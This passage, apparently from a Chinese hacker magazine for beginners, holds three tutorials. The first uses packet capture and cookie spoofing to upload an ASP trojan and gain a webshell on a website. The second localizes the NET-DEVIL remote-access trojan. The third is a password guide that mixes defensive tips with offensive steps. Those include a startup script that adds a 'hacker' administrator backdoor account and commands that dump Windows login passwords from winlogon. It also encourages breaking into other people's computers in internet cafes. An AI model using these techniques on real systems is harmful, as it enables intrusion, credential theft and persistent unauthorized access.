方法就是抓取数据包。打开抓包使用的工具：我推荐使用 WSockExpert，其界面如图33所示，点“打开进程”按钮选择需要抓包的进程。因为我使用的是遨游浏览器，所以选择的进程名就是 Maxthon.exe，然后展开，找到要抓取数据包的页面，再点“打开”，如图34。

准备工作已经做好了，点击“新增产品”，这次不是上传 jpg 文件，而是 asp 格式的木马，点击“上传”，接着就出现了不允许上传的提示。只要出现类似这样的提示，我们的成功率就很高了，表示上传页面尚未被删除；而如果没有任何提示的话，那还是放弃好了，十有八九是上传页面被删除了，如图35。


可能有菜鸟有疑问了：“既然不能上传，你为什么还让我们上传呢？”其实，我们这里上传的目的是为了抓取数据，现在打开 WSockExpert，在上面找到“POST”的字母，这是上传的意思，选中后下面就会出现抓取到的信息，如图36。


### ②抓包得到 webshell！

并不是每个网站的后台都有备份功能的；那对于没有备份功能的后台怎么获取 webshell 呢？对于这种情况，最常使用的……


第一句就是抓取到的真实的上传路径，只不过是相对路径。往下看，第四句，我们需要把第四句最后的地址 /gaoke/upload.asp 改成 /gaoke/upfile.asp，这样最后得到的地址就是 http://www.XXX.com/gaoke/upfile.asp。最后一句，就是 Cookie 值。我们要用到 cookie 欺骗，怎么利用呢？可以使用明小子自带的上传功能，打开明小子旁注入侵工具，切换到“综合上传”，选择“动力上传漏洞”，然后再选择“/Upfile_SoftPic.asp 页面”，在“提交地址”处填上刚才得到的地址，把下面的伪 Cookie 值改成刚才我们抓取到的值，不写可以使用默认的木马，也可以使用自己的木马，然后点击“上传”即可成功，如图37。

现在我们要做的就是找到 webshell，从上传成功后返回的数据来找，找以 asp 为扩展名的，不难发现，UploadFiles/2007128152538430.asp 就是。然后把刚才得到的地址修改一下，最终得到的 webshell 地址就是 http://www.XXX.com/gaoke/UploadFiles/2007128152538430.asp，如图38。

好了，本文就讲这么多，都是一些比较基础的内容，相信对于那些菜鸟来说，结合着杂志里的文章应该不难掌握！当然，限于篇幅有限，有许多基础的内容，包括详细的入侵方法都未能一一介绍，有兴趣的读者可以参见《黑客X档案》最新上市的 2007 年增刊一书，相信在那本书中大家会找到自己需要的知识的。

（文章中涉及到的工具 S 扫描器、NTscan、tftpd32、牧民战天鸽子2006免杀版、明小子旁注入侵工具、啊D注入工具、WSockExpert 已收录于光盘中）


## 菜鸟来跟我学汉化黑客软件

追风少年@H4CK.CN

去年第10期《黑客X档案》上的“让黑客兵器出自菜鸟之手”一文，相信已经教会了大家如何使用 eXeScope 来简单汉化英文版黑客工具。俗话说“温故可以知新”，那么这次，我们就在回顾上次所学知识的基础上来讲解如何完全汉化 DELPHI 程序。所谓完全汉化是指汉化其所有资源，包括字符串文字资源、图像图片数据等。我们这次要汉化的程序是一款功能齐全的国外木马——NET-DEVIL，汉化所使用的工具与上次不同，是 PE Explorer，这是款专业汉化人员常用的工具之一，学习 PE Explorer 的使用技巧也是菜鸟学习汉化修改的必修课。

我们按照上次“让黑客兵器出自菜鸟之手”一文中所讲过的汉化步骤，先查看程序是否被加壳。在木马 NET-DEVIL 的程序文件夹里有如下文件（图1）。


图1

这些文件中只要有操作界面的程序都需要汉化，如 Edit-server.exe（木马服务端配置程序）和 Net-Devil.exe（木马客户端程序）。使用 PEiD 加载上述程序（图2），可以得知这两个需要汉化的程序都没有加壳，这就简化了脱壳的工序。如果程序被加壳，可以用 PEiD 自带插件先行脱壳。接下来请鸟友启动汉化工具：PE Explorer。依次“文件”-“打开文件”加载需要汉化的程序（图3）。首先汉化 Edit-server.exe，加载后显示的是 PE 文件头的一些信息，这些信息与汉化基本无关，我们关心的是它的资源文件（图4）。

点击“视图”-“资源”，就可以查看资源文件了（图5）。对于使用 DELPHI 编写的程序，我们要修改的资源文件主要是 RC 数据中的字符串文字资源和图像图片数据。字符串资源主要是界面中的文字信息，如按钮上、标签上的文字等；图像资源则是程序界面中的图片和程序的图标 logo 等。

在资源查看列表中可以看到程序的所有类型资源，在这些资源中可以找到我们需要的“图标项”“字符串”“RC 数据”等资源（图6），点击列表的树形目录可以查看相关资源的详细信息。


图2


图3


图4


图5


图6

## 一、图标项资源的替换修改

来修改“图标项”资源，点击“图标项”在展开的菜单中选中要修改的图标文件，在右边可以看到选中的图标预览，然后右键它选择“编辑资源”，就可以对文件进行替换修改（图7）。


图7

我们要准备好替换的资源文件，也就是图标 ico 文件了，在修改图标项的界面中点击“文件夹图标”来打开替换文件，选中准备好的替换图标文件（图8），然后点击“确定”来确认修改。


图8

如果对于替换的图标不满意的话，还可以继续替换。当我们确定要修改时会提示我们是否要继续，点击“是”确定修改（图9）。


图9

可以使用同样的方法来修改图标项中的其它 ico 文件，不过要注意的是，原始图标文件的大小、格式、像素、分辨率要与替换的文件一致，否则是无法替换的。关于图标文件可以到网络上搜索。

在百度上搜索“ico 素材”相信一定可以找到我们满意的。

### 二、RC 数据中字符串资源的汉化修改

浏览一下“字符串资源”，如果没有必要就可以不用修改了。一般来讲，VC++ 编写的程序比较关注于“字符串资源”的汉化修改，而对于 DELPHI 编写的程序主要关注的是“RC 数据”的汉化修改。打开“RC 数据”，选中其中一项，比如 TFRMBOUT，然后点击“资源编辑器”就可以对该项中的文字和图片资源进行修改了（图10）。


在资源编辑器中进行修改，修改的主要选项是“字符串数据”和“图片数据”。关于修改“字符串数据”只要修改其中字符串的“Caption”属性就可以实现汉化的目的。打开 TFRMBOUT 项的树形列表，查看其中的资源目录，其中有 “TLabel” 字符串的是标签资源，可以修改标签资源中的文字信息；带有 “TImage” 字样的是图片资源，可以修改其中的图像数据。

先来修改文字信息，将“about”汉化为“关于”，点击“应用”按钮即可确认修改（图11）。再点击“确定”来完成修改。这时会提示“是否继续”，当然选择“是”了（图12）。


其它的字符串资源（图中标有 TLabel 的资源或按钮类资源等）都可以按照这个方法来进行修改。修改时要注意汉化修改后的文字长度应该尽量与原来英文长度相仿，如果汉化后的文字很长将有可能导致其在软件界面中显示不完整或数据溢出等问题。

### 三、RC 数据中图片数据的替换修改

我们再来看看 RC 数据中“图片数据”的替换修改，基本方法与图标项的修改一样。基本思路是先将原来的图片数据以资源的形式导出，再使用图片处理软件修改该导出的资源，最后再将修改过的新资源重新导入并替换原来的资源。

首先找到要修改的图片资源，一般来讲在资源列表中标有“Picture.Data”字段的便是图片数据，选中图片数据“Picture.Data”项，右键选择“资源另存为...”将图片资源导出（图13）。导出的图片资源一般是 bmp、gif、jpeg 等格式的。


导出后的图片可以使用图片编辑工具（比如 Photoshop、Fireworks 等）进行修改，我使用的是 Macromedia 公司的 Fireworks，大家可以选择擅长的软件。至于图片如何修改就看大家的喜好了，图14是我修改的图片。


修改好图片后保存新的图片资源，再回到 PE Explorer 的图片编辑界面点击“打开源文件”，选中我们刚才修改后的新图片资源文件。然后点“应用”就可以完成修改了（图15）。图片与图标的修改其差别在于，替换的图片文件不用与原来的资源大小一致，这就给我们自由发挥想象力提供了方便，可以对图片资源任意修改，不过最好格式上保持一致。

所有类型的资源基本上都可以使用上述几种方法来进行汉化修改，在完成所有修改后记得要将程序另存为（图16），也就是把汉化后的程序保存下来。好了，现在就可以欣赏一下自己亲手汉化的木马程序了。如图17所示就是我汉化前后的差别，是不是觉得手痒了，那就快动起手来打造自己个性的黑客工具吧！

## 专题乐园


图15


图17

（文中涉及到的工具 PE Explorer 和 PEiD 已经收录在光盘中）


图16

## 公子许点评：

在对去年第10期“让黑客兵器出自菜鸟之手”的学习之后，大家对于资源的类别已经有了简单的认识，本文详细阐述了如何使用 PE Explorer 对 DELPHI 编写的程序进行汉化。主要是对程序图标、文字信息和图片资源的修改。希望大家对于 PE Explorer 的使用方法和使用技巧熟练掌握。如果在汉化过程中遇到什么问题的话，还请到黑客X档案论坛及时反馈。

## 菜鸟网络密码安全手册

提起电脑，就不得不提起我们最熟悉的陌生人——密码。无论是登录系统，在网上收发电子邮件还是管理自己的论坛等都需要密码。我们如何对密码进行设置，如何获取别人的密码信息，如何安全方便地管理自己的密码呢？看完本文，相信各位读者就会有所了解了！

## 一、密码安全之基础知识篇

### 1. 社会工程学

社会工程学，个人认为不是一门科学，而是一门艺术和技巧的结合。社会工程学利用人的弱点，比如人的本能反应、好奇心、信任、贪便宜等弱点进行诸如欺骗、伪装等手段，来得到自己想要的信息以达到某种目的。说它不是科学，因为它不总能重复和成功，而且在信息充分多的情况下，也会自动失效。社会工程学的技巧也源于各种各样灵活的构思与变化因素。在黑客防入侵过程中，熟练地运用社会工程学往往会达到事半功倍的效果。要想保证个人密码的安全，首先要提高自身的安全防护意识，不要轻易相信别人，将诸如密码等一些敏感的信息告诉对方。当然，从入侵者的角度来说，要想获取别人的密码就需要思考如何让别人掉进自己精心布置的陷阱！

### 2．常见密码的破解方法

- 1. 穷举法：穷举法又称暴力破解法，在所有的密码破解方法中，该方法是最慢的，但是理论上可以破解所有的密码。为了尽快获取真正的密码，我们可以使用多台肉鸡把密码分段后来进行破解！
- 2. 字典破解：把大量常用的密码收集起来存为文档，或者使用字典软件生成大量可能的密码，然后使用程序逐个地进行验证破解，该方法统称为字典法结合伪码利用。
- 3. 拖码破解：该方法主要针对获取了部分密码的情况，剩下的部分我们可以结合穷举法或者字典破解法进行破解。
- 4. 嗅探技术：这个方法大家都不陌生，当成功入侵局域网中的一台电脑时，给这台电脑安装嗅探软件，以获取局域内其它电脑的密码以扩大成果，这是一种非常实用的方法！

### 3．最危险的密码

- （1）不设密码（也就是空口令、空密码），很多人为了自己登录系统方便经常不设密码，这是非常不安全的！
- （2）用户名和密码相同，这种情况也很常见，比如对方 FTP 服务端账户和密码都为 test。这种情况也是非常危险的，以上两种情况，使用 X-SCAN、流光等扫描工具就可以轻易地扫描出来！
- （3）使用生日、身份证号码、姓名拼音、固定电话号码或手机号码等作为密码，相信这种情况也是非常常见的，虽然比起上边两种情况的安全性要高了一些，但是这类密码也是很容易被猜解出来的！
- （4）同一个密码用于多个地方，记得在 06 年第 8 期的杂志中“简简单单内网入侵”就是利用了这一点，通过已经控制的一台网吧服务器，进入了网吧的另一台服务器，从而把注册表自启动加载的文件替换为木马文件，导致整个局域网的陷落！

### 4．密码设置的技巧

既然知道了什么样的密码是不安全的，那我们就来讲一下密码设置的一些技巧！

- （1）密码长度尽量长一点，复杂一点，主要是为了防止暴力破解！不要单纯地使用纯数字或者纯字母来做密码，一般六位的纯数字密码很短的时间内就可以被破解，六位的纯字母密码大约需要 30 分钟就可以被破解。
- （2）不要只使用一个相同的密码，比如 QQ 密码和邮箱登录密码相同，就很容易受到别人的社会工程学攻击！
- （3）不要使用具有明显含义的密码，不要使用生日、电话号码等作为密码。
- （4）最好使用数字、字母 + 特殊字符的组合。可通过键盘上数字与符号对应关系（如 `1234567890` 对应 `!@#$%^&*()`）进行替换组合，增加记忆性和复杂度，避免使用众所周知的固定组合（如 `*#06#` 等）。
- （5）使用移位法来增加密码复杂性，例如把 `1234567890` 拆分并换位为 `6789012345`，使密码不易被猜测。

### 5．密码学的一些常识

密码学是研究编制密码和破译密码的技术科学。研究密码变化的客观规律，应用于编制密码以保守通信秘密的，称为编码学；应用于破译密码以获取通信情报的，称为破译学，总称密码学。密码是通信双方按约定法则进行信息特殊变换的重要保密手段，包含加密变换与脱密变换。

- 凯撒加密法：一种简单移位加密法，明文中的每个字母被其后的 n 个字母替换。
- 加密法：基于使用密钥的某种算法，将信息打乱。
- 密文：一个被打乱的消息。
- 明文：可读的消息。
- 编码法：通过用字、短语或数字替换明文来打乱信息的方法。
- 密码分析法：破译编码和加密的一门艺术与科学。
- 解密：还原被打乱消息的过程。
- 加密：打乱消息的过程。
- 单码加密法：具有固定替换模式的加密法。
- 多码加密法：可用多个字母替代同一明文字母。
- 隐写法：通过隐藏消息的存在来隐藏消息的方法。
- 替换加密法：用一个字符替换另一个字符的方法。
- 换位加密法：重新排列明文中字母位置的加密法。

## 二、BIOS 密码攻防

BIOS 是 Basic Input/Output System 的缩写，全称为 ROM-BIOS。它是计算机中最底层、最直接的硬件控制程序集合，负责响应硬件即时请求并按软件要求执行操作。BIOS 密码可防止他人随意修改 BIOS 设置并在一定程度上保护系统资源。BIOS 密码一般包括管理员密码（Supervisor Password）和用户密码（User Password）：前者可进入并修改 BIOS 设置，后者可进入但通常无法修改设置。

### 1．BIOS 密码的设置

BIOS 版本虽多，但密码设置方法基本相同。启动时按提示（如“PRESS DEL to enter SETUP”）按 Del 键进入 BIOS。常见选项包括 BIOS FEATURES SETUP、SUPERVISOR PASSWORD、USER PASSWORD。选择相应项后输入并确认密码，退出前需保存设置（如 SAVE & EXIT SETUP 或 F10，确认 Y）。

- （1）设置管理员（SUPERVISOR PASSWORD）密码：设置后可在开机进入 BIOS 时要求输入密码，增强设置安全性。
- （2）利用相同的密码设置管理员和用户密码：可统一管理访问控制策略。

### （3）采用不同的密码设置管理员密码和用户密码

分别设置“SUPERVISOR PASSWORD”和“USER PASSWORD”，并且采用两个不同的密码。再打开“BIOS FEATURES SETUP”，将其中的“Security Option”设置为“System”，退出保存。这样，进入 BIOS 设置和进入操作系统都要求输入密码，而且输入其中任何一个密码都能进入 BIOS 设置和操作系统。

但“管理员密码”和“用户密码”有所区别：以“管理员密码”进入 BIOS 程序时可以进行任何设置，包括修改用户密码；但以“用户密码”进入时，除了修改或去除“用户密码”外，不能进行其它任何设置，更无法修改管理员密码。

### 2. BIOS 密码的破解与去除

首先应该区别“破解”与“去除”：“破解”是指在忘记密码、无法进入 BIOS 设置或无法进入操作系统的情况下破解密码，这种情况是因为“Security Option”设置为“System”，这时候无论进入 BIOS 设置程序还是进入操作系统都需要密码；“去除”是指在已经知道密码的情况下去除密码。

### （1）密码的去除

计算机在启动的情况下，按“Del”键进入 BIOS 设置画面，选择已经设置密码的“SUPERVISOR PASSWORD”或“USER PASSWORD”，回车后，出现“Enter Password”时，不要输入密码，直接按回车键。此时屏幕出现提示：

> PASSWORD DISABLED !!!（去除密码）  
> Press any key to continue...（按任意键继续……）

按任意键后退出保存，密码便被去除了。

### （2）BIOS 密码的破解

- 1. 万能密码破解法
- 2. 软硬兼施法

这是最简单的破解 BIOS 密码的方法了。在网上有很多这样的万能 BIOS 密码列表，在需要破解的时候大家可以根据自己的实际情况进行搜索。我们可以使用软件进行破解 BIOS 密码，常见的软件主要是 CMOSPWD、BIOSPWDS 等。虽然网上说 BIOSPWDS 比 CMOSPWDS 好用，但个人认为还是 CMOSPWD 比较实用。在 CMD 窗口下运行后，它会给出 3 个有可能是这台计算机 BIOS 的万能密码和 BIOS 信息，如图 1。在使用之前需要安装 ioperm.exe，在命令提示符下输入 `ioperm.exe -i` 就可以了。


硬件破解方法是破解 BIOS 密码的最后一着杀手锏。采用该方法虽然可以破解 BIOS 密码，但是会把所有 BIOS 的设置清除，所以不到万不得已不推荐使用该方法。这类方法主要有跳线法和 CMOS 放电法。在使用跳线法的时候，请先查阅主板的使用说明书，找出跳线的位置。找到 CMOS 的跳线位置后，将这部分电路短路 5 秒钟以上，即可清除 BIOS 密码；如果不成功，可以适当延长短路时间。

如果手边没有主板的使用说明书，我们就可以使用 CMOS 放电法：找到储存电能的 CMOS 电池取下，找根导线将电池的正负极连通，持续 10 分钟左右，再把电池安装回主板就可以了。

## 三、WINDOWS 系统密码攻防

### 1. WINDOWS 系统密码的获取

在什么情况下我们需要获取 WINDOWS 系统的密码呢？一般分为两种情况：一种是忘记了自己电脑的密码；另一种是想破解别人的系统登录密码。

### （1）个人电脑密码忘记后的处理方法

- ① 防患于未然——开机自动添加用户

如果你的计算机文件系统是 FAT32，而不是 NTFS，那么可以使用该方法给自己的系统添加一个“后门”账户，以防止忘记密码后无法登录系统。首先打开记事本输入如下内容，保存为 x.bat：

```bat
net user hacker rekcah /add
net localgroup administrators hacker /add
```

然后打开“开始”→“运行”，输入 `gpedit.msc`，依次找到“计算机配置”→“Windows 设置”→“脚本（启动/关机）”，双击“启动”出现如图 2 所示界面，单击“添加”，找到刚才建立的 x.bat，单击“应用”，确定后退出。以后系统每次启动都会自动添加一个用户了，这样我们就不怕 Windows 密码被遗忘了。

- ② 让 WINXP 也能删除 SAM 文件

在 WIN2K 系统中，只要删除 SAM 文件，重启计算机后，系统会自动添加两个空密码的账户——administrator 和 guest；而在 WINXP 中如果删除了 SAM 文件，重启计算机后，系统会提示“安全账户管理器初始化失败”。尽管如此，在 WINXP 下我们依然可以删除 SAM 文件。首先加载忘记密码系统的配置单元：如果你安装的是两个系统，则可以直接进入另一个系统，在“运行”中输入 `regedit`（WIN2K 中需要输入 `regedt32`）。


打开“注册表编辑器”，选中 `[HKEY_LOCAL_MACHINE]`，然后打开“文件”→“加载配置单元”，如图 3，定位到忘记密码的操作系统安装路径，比如 `c:\windows\system32\config\system` 文件。在弹出的“加载配置单元”中输入一个“项名称”，如图 4，这里命名为 `hacker`。然后修改配置单元中的注册表项，定位到 `HKEY_LOCAL_MACHINE\hacker\setup`，在右侧窗口中找到“SystemSetupInProgress”键，将其值设置为 1。修改完成后，选择“文件”→“卸载配置单元”以保存设置，重启计算机。这时候系统会出现“系统没有安装好，请重新运行安装程序”的错误提示。重复上面的操作，将“SystemSetupInProgress”键的值设置为 0，重新启动计算机后，系统会自动建立两个密码为空的账户——administrator 和 guest。


- ③ 重新设置密码盘

该方法仅适用于 WINXP。利用修改密码的方法的确可以轻松找回管理员权限，但是重设后加密过的文件、网络连接等信息就会丢失，这是为了防止恶意攻击者绕过验证窃取用户信息而采用的安全机制。利用 WINDOWS 的重设盘就能在不丢失信息的情况下重新设置密码。

首先登录管理员账户，在“运行”中输入 `nusrmgr.cpl`，选中需要密码重设盘对应的账户，单击左侧的“防止一个已忘记的密码”，如图 5。然后插入一个格式化好的空白软盘，在打开的“忘记密码向导”对话框中输入账户密码，按照向导提示创建一个重新设置密码盘。忘记密码时，登录系统选择要登录的账户，这时系统会出现密码提示框，单击“使用密码重设磁盘”，然后根据系统提示插入重设密码盘，输入新的密码就可以正常登录了。


### （2）破解不同 WINDOWS 操作系统的密码

在入侵过程中经常需要获取管理员密码，进行权限提升或者扩大成果。下面推荐一些破解 WINDOWS 密码的方法。

- 1. Win2000 登录密码破解
- 2. Win2003
- 3. 通用 WINDOWS 密码破解程序

```bash
adump -f pass.txt
nt.exe -pslist
findpass pid
```

在网吧上网时，经常为了入侵 MM 的电脑而需要查找系统登录账户的密码。推荐 `adump.exe`，在命令提示符下输入 `adump -f pass.txt`，程序会自动把登录账户的密码保存到 `pass.txt` 中。

大部分 WEB 服务端安装的操作系统是 WIN2003。对于 WIN2003 系统，我们可以使用 `findpass2003` 查找管理员密码，前提必须在管理员登录的情况下才能破解。首先运行进程查看软件，使用 `nt.exe -pslist` 或者 `pulist.exe` 查找 `winlogon.exe` 进程的 PID，如图 6，然后再输入 `findpass pid`，一会儿密码就被读出来了。

SAMINSIDE 是一款破解 Windows NT/2000/XP/2003 用户口令的软件。速度很快，可达几百万口令/秒，支持暴力破解、模糊破解、字典攻击、多台电脑分布式破解等方式，绝对是 WINDOWS 密码破解的克星。软件运行后的界面如图 7 所示。网上也有该软件的破解版和汉化版。只要单击第三个图标就可以轻松获取本地计算机上的账户和密码，还可以根据自己的需要暴力破解别人密码。

对于 WINDOWS 系统密码，不仅要知道常见破解方法，还要学会一些防御方法。


### 2. WINDOWS 系统密码的防范

对于 WINDOWS 系统密码的防范，除了设置一个复杂的、至少 8 位的密码外，还需要设置与账户密码操作相关的程序权限。

- 1. 利用 NTFS 文件系统对系统盘进行权限设置
- 2. 对组和成员进行对调

系统盘如果是 NTFS 文件系统，将系统盘权限设为 System“完全控制”，其他所有用户权限都设为“只读”。打开“开始”→“运行”，输入 `services.msc`，在“服务”中把“terminal services”的属性改为“已禁用”，以防止攻击者使用工具进行暴力破解。随后在“运行”中输入 `secpol.msc` 与 `compmgmt.msc`，依次在本地安全策略和计算机管理中对“账户：重命名来宾账户”“账户：重命名系统管理员账户”等策略与组进行对调和重命名设置。


### （3）对 CMD 多一点关怀

入侵者很多情况下都要使用到 CMD，所以要对它多一些关照。下面使用批处理制作一个简单的 CMD 加密锁：先将代码保存到某路径下的 `lock.bat`。

```bat
@echo off
color ac
cls
:begin
echo.请输入运行密码
set /p password=
echo %password%|findstr "lovebaobao"
if "%errorlevel%"=="0" echo 密码正确 & goto end
echo.密码错误&goto begin
:end
echo.成功运行CMD!
...
echo 今天是%date%
echo 现在时间是%time%
title LOVE 小宝 FOR EVER
```

然后再写一个注册表文件，保存为 `lock.reg`。

```reg
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor]
"AutoRun"="e:\桌面\lock.bat"
```

双击 `lock.reg` 将文件导入注册表中，以后要运行 CMD 必须先输入密码才行。

### （4）设置 net 命令以迷惑攻击者


图11


图12

输入如下内容保存为批处理文件 `net.bat`：

```bat
doskey net=basenet
doskey net1=basenet
doskey net=...
doskey net1=...
```

运行 `net.bat`，入侵者就无法想当然地使用该命令修改管理员密码或者添加一个新的账户了。

## 四、破解常见文档密码

### 1. Office 加密文档的破解

对于 WORD/EXCEL 加密文件的密码破解，我们可以使用 office password remover，如图 13，可以在极短时间内把密码破解出来。不过使用该软件需要连接到互联网，因为该工具要给软件服务器发送很少的加密数据才可以破解。对于 ACCESS 数据库加密文件，我想大家都知道很多破解方法，我常用的方法是通过 DOMAIN3.6 的密码破解功能实现密码获取。

如果使用上面的工具无法破解，大家可以使用 advanced office password recovery，这是破解 office 加密文件的经典工具，软件运行后的界面如图 14 所示。

### 2. WINRAR/ZIP 加密文档的破解

使用 WINRAR 加密文档很多人都会用。如果密码忘记，或者想查看别人加密的压缩文件该怎么办呢？向大家推荐多功能密码破解软件。软件运行后如图 15 所示，转到 ZIP/RAR 选项，单击“浏览”选择要破解的文件，单击“开始”按钮就可以了。

### 3. PDF 电子书的密码破解

网上有很多 PDF 格式的电子书，都被制作者设置了密码。


图13

要破解该类密码，使用 PDF PASSWORD CRACK 再好不过了。软件运行后如图 16 所示，单击“载入”，选择要破解的文件，在破解方式中选择“强力破解”或者“字典破解”，单击“解密”就可以了。个人感觉该工具在速度和密码准确性上都还是不错的。


图14


图15


图16

### 4. 加密网页文件破解

对于加密的网页文件，我们可以使用在线的网页加密、解密程序进行破解，如图 17。只要把加密的网页代码复制到表单中，单击“解密”就可以了。


图17

## 五、其它软件类密码破解

### 1. Foxmail 密码破解

Foxmail 在国内拥有大量用户。由于种种原因，很多用户需要把 Foxmail 里面的电子邮件、邮箱账号设置等转移到其它 E-mail 软件中，或者忘记了账户密码。文中介绍可用“月影 Foxmail 邮件转换/密码恢复器”实现密码恢复，并可批量导出邮件为 eml 文件，便于导入其它邮件软件。


图18

### 2. ADSL 密码破解

对于 ADSL 密码的破解，请参阅黑客 X 档案以前的文章《ADSL 密码破解三招两式》。

### 3. 星号密码查看器

在 WINDOWS 中经常碰到“*”号类密码，可使用多功能密码破解软件中的“星号密码”功能查看其代表内容。

## 六、如何管理密码

我们每个人都有很多密码，其中很多并不常用，也有很多是重要密码。文中推荐使用 keepass 进行统一管理。可下载语言包并在 View → Change Language 中选择 Simplified Chinese 切换中文界面。keepass 采用数据库形式保存密码，并支持分组管理。


图19

文中说明：新建数据库时可设置主密码，也可启用密钥文件并存储到移动介质；随后可生成随机键盘/鼠标熵数据完成加密库初始化；通过 General 菜单可新增或修改群组。


图20


图21


图22

另外 keepass 还支持 Auto-Type 功能，可在论坛等登录场景自动输入用户名与密码。示例格式如：`{USERNAME}{TAB}{TAB}{PASSWORD}{TAB}{TAB}{ENTER}`，并可指定窗口匹配规则（如论坛）。

（文中涉及到的工具包括：CMOSPWD5、ioperm.exe、adump.exe、findpass2003、nt.exe、SAMINSIDE、office password remover、advanced office password recovery、多功能密码破解软件、PDF PASSWORD CRACK、月影 Foxmail 邮件转换/密码恢复器、keepass 等。）